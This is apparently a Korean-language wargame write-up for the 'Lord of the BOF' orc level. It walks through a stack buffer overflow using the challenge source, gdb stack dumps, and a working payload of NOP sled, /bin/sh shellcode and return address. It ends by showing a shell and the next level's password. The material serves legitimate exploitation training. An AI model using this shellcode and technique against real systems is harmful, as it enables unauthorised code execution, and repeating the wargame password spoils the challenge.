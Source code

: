 ============================================================================================================
[lob] goblin
============================================================================================================


.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :argv[1] 주소 확인;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml


|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
	    The Lord of the BOF : The Fellowship of the BOF
	    - orc
	    - egghunter
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

|

Memory Structure
============================================================================================================

스택에 다음과 같이 들어가게 됩니다.

.. code-block:: console

	================
	LOW     
	----------------
	Buffer  (40byte)
	SFP     (4byte)
	RET     (4byte)
	argc    (4byte)
	argv    (4byte)
	----------------
	HIGH    
	================

|

Segmentation fault
============================================================================================================

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    [goblin@localhost goblin]$$ ./orc `python -c 'print "a"*47'`
    stack is still your friend.
    [goblin@localhost goblin]$$ ./orc `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1] 주소 확인
------------------------------------------------------------------------------------------------------------

gdb를 이용하여 argv가 가리키는 주소를 찾습니다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb)
    Note: breakpoint 1 also set at pc 0x8048500.
    Breakpoint 2 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/goblin/orc1 `python -c 'print "a"*47+"\xbf"'`

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffaf8       -1073743112

    (gdb) i reg $ebp
    ebp            0xbffffb18       -1073743080

    (gdb) x/100x $esp

	==========================================================================
	0xbffffaf8:     0xbffffb18      0x400309cb      0x00000002      0xbffffb44
	0xbffffb08:     0xbffffb50      0x40013868      0x00000002      0x08048450
	0xbffffb18:     0x00000000      0x08048471      0x08048500      0x00000002
	0xbffffb28:     0xbffffb44      0x08048390      0x0804860c      0x4000ae60
	0xbffffb38:     0xbffffb3c      0x40013e90      0x00000002      0xbffffc37
	0xbffffb48:     0xbffffc49      0x00000000      0xbffffc7a      0xbffffc9c
	0xbffffb58:     0xbffffca6      0xbffffcb4      0xbffffcd3      0xbffffce2
	0xbffffb68:     0xbffffcfb      0xbffffd17      0xbffffd36      0xbffffd41
	0xbffffb78:     0xbffffd4f      0xbffffd91      0xbffffda3      0xbffffdb8
	0xbffffb88:     0xbffffdc8      0xbffffdd4      0xbffffdf2      0xbffffdfd
	0xbffffb98:     0xbffffe0e      0xbffffe1f      0xbffffe27      0x00000000
	0xbffffba8:     0x00000003      0x08048034      0x00000004      0x00000020
	0xbffffbb8:     0x00000005      0x00000006      0x00000006      0x00001000
	0xbffffbc8:     0x00000007      0x40000000      0x00000008      0x00000000
	0xbffffbd8:     0x00000009      0x08048450      0x0000000b      0x000001f7
	0xbffffbe8:     0x0000000c      0x000001f7      0x0000000d      0x000001f7
	0xbffffbf8:     0x0000000e      0x000001f7      0x00000010      0x0fabfbff
	0xbffffc08:     0x0000000f      0xbffffc32      0x00000000      0x00000000
	0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
	0xbffffc28:     0x00000000      0x00000000      0x36690000      0x2f003638
	0xbffffc38:     0x656d6f68      0x626f672f      0x2f6e696c      0x3163726f
	0xbffffc48:     0x61616100      0x61616161      0x61616161      0x61616161 
	                      			                    ^ argv[1] = 0xbffffc51
	0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
	0xbffffc68:     0x61616161      0x61616161      0x61616161      0x61616161
	0xbffffc78:     0x454c00bf      0x504f5353      0x7c3d4e45      0x7273752f
	==========================================================================



RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    [goblin@localhost goblin]$$ ./orc `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x4c\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault
    
    [goblin@localhost goblin]$$ ./orc `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x51\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀Q▒▒▒
    bash$ whoami
    orc
    bash$ my-pass
    euid = 504
    cantata







